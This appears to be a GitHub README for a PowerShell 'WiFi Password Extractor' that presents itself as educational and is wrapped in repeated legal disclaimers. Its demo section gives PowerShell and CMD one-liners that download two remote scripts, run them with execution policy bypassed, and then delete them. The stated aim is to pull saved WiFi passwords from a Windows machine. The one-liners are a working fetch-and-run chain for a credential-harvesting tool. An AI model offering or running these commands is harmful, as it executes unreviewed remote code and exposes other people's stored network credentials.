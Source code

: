 <div align="center">

# ⚠️ SQD5-DCWH WiFi Password Extractor

<img src="https://img.shields.io/badge/PowerShell-5.1%2B-blue?style=for-the-badge&logo=powershell" alt="PowerShell">
<img src="https://img.shields.io/badge/Windows-7%20%7C%208%20%7C%2010%20%7C%2011-0078d4?style=for-the-badge&logo=windows" alt="Windows">
<img src="https://img.shields.io/badge/Status-EDUCATIONAL%20ONLY-red?style=for-the-badge" alt="Educational Only">

### _WiFi Password Extraction Tool - Educational Purposes Only_ 🎓

<img src="https://user-images.githubusercontent.com/74038190/212257454-16e3712e-945a-4ca2-b238-408ad0bf87e6.gif" width="100">

</div>

---

> [!DANGER]
>
> # 🚨 DO NOT RUN THIS SCRIPT! 🚨
>
> **THIS IS FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY**
>
> - 🔴 **DO NOT EXECUTE** this script on any system
> - 🔴 **FOR LEARNING ONLY** - Study the code, don't run it
> - 🔴 **POTENTIAL SECURITY RISK** if misused
> - 🔴 **YOU ARE RESPONSIBLE** for any consequences

---

## 🎯 Quick Demo (Educational Only)

> [!WARNING] > **These commands are for educational demonstration only!**
>
> **DO NOT RUN unless you fully understand the risks and have proper authorization!**

### 🏃‍♂️ PowerShell One-Liner

```powershell
iwr "https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/sqd5dcwh.ps1" -OutFile "$env:TEMP\sqd5dcwh.ps1"; powershell -NoProfile -ExecutionPolicy Bypass -File "$env:TEMP\sqd5dcwh.ps1"; Remove-Item "$env:TEMP\sqd5dcwh.ps1" -Force; iwr "https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/run.ps1" -OutFile "$env:TEMP\run.ps1"; powershell -NoProfile -ExecutionPolicy Bypass -File "$env:TEMP\run.ps1"; Remove-Item "$env:TEMP\run.ps1" -Force

```

### 📱 CMD Version

```cmd
@echo off & powershell -Command "iwr 'https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/sqd5dcwh.ps1' -OutFile '%TEMP%\sqd5dcwh.ps1'; powershell -NoProfile -ExecutionPolicy Bypass -File '%TEMP%\sqd5dcwh.ps1'; del '%TEMP%\sqd5dcwh.ps1'; iwr 'https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/run.ps1' -OutFile '%TEMP%\run.ps1'; powershell -NoProfile -ExecutionPolicy Bypass -File '%TEMP%\run.ps1'; del '%TEMP%\run.ps1'"
```

> [!CAUTION] > **REMEMBER:** Running these commands will:
>
> - Download and execute the script automatically
> - Request administrator privileges
> - Extract WiFi passwords from your system
> - **Only use on systems you own or have explicit permission to test!**

---

## 📋 What This Tool Does

This PowerShell script demonstrates WiFi password extraction techniques by:

- 🔍 Extracting saved WiFi profiles from Windows
- 📄 Displaying stored network passwords
- 💾 Exporting results to text file
- 🎨 Providing a colorful terminal interface

---

## 🔗 Script Location

**Main Script:** [sqd5dcwh.ps1](https://github.com/09sychic/sqd5-with-dcwh/blob/main/sqd5dcwh.ps1)

---

## 📋 System Requirements

<div align="center">

<img src="https://img.shields.io/badge/OS-Windows_7+-0078d4?style=flat-square&logo=windows" alt="Windows 7+">
<img src="https://img.shields.io/badge/PowerShell-5.1+-012456?style=flat-square&logo=powershell" alt="PowerShell 5.1+">
<img src="https://img.shields.io/badge/Privileges-Administrator-red?style=flat-square&logo=windows-terminal" alt="Admin Required">

</div>

---

## 🎓 Educational Use Cases

- **Security Research:** Understanding Windows credential storage
- **Penetration Testing Education:** Learning about local privilege escalation
- **PowerShell Learning:** Studying advanced scripting techniques
- **Cybersecurity Awareness:** Understanding password security risks

---

## ⚖️ Legal Disclaimer & Warnings

<div align="center">

<img src="https://user-images.githubusercontent.com/74038190/212257460-738ff738-247f-4445-a718-cdd0ca76e2db.gif" width="100">

</div>

> [!CAUTION] > **CRITICAL LEGAL AND SECURITY WARNINGS**
>
> ### 🚨 DO NOT USE FOR:
>
> - ❌ Unauthorized access to networks
> - ❌ Accessing systems without permission
> - ❌ Any illegal or malicious activities
> - ❌ Violating privacy or computer crime laws
>
> ### ✅ ONLY ACCEPTABLE FOR:
>
> - ✅ Educational research and learning
> - ✅ Authorized penetration testing
> - ✅ Personal system security assessment
> - ✅ Academic cybersecurity studies
>
> ### ⚠️ IMPORTANT NOTICES:
>
> - **YOU ARE FULLY RESPONSIBLE** for how you use this code
> - **RESPECT ALL LOCAL AND INTERNATIONAL LAWS**
> - **OBTAIN EXPLICIT PERMISSION** before testing on any system
> - **AUTHOR IS NOT LIABLE** for misuse or damages

---

## 🛡️ Security Considerations

- This tool demonstrates why saved passwords can be security risks
- Always use strong, unique passwords for WiFi networks
- Consider using WPA3 security protocols when available
- Regularly audit saved network profiles on your devices

---

## 🤝 Responsible Disclosure

If you discover security vulnerabilities through educational use of this code, please follow responsible disclosure practices and report findings to the appropriate parties.

---

## 📄 License

<div align="center">

<img src="https://img.shields.io/github/license/09sychic/sqd5-with-dcwh?style=for-the-badge&color=red" alt="License">

**This project is for educational purposes only**

</div>

---

<div align="center">

### ⚠️ Remember: With Great Power Comes Great Responsibility ⚠️

<img src="https://user-images.githubusercontent.com/74038190/212257468-1e9a91f1-b626-4baa-b15d-5c385dfa7cd2.gif" width="100">

**🎓 Learn Responsibly • 🛡️ Use Ethically • ⚖️ Follow Laws**

<img src="https://komarev.com/ghpvc/?username=09sychic&style=for-the-badge&color=red" alt="Profile Views">

</div>
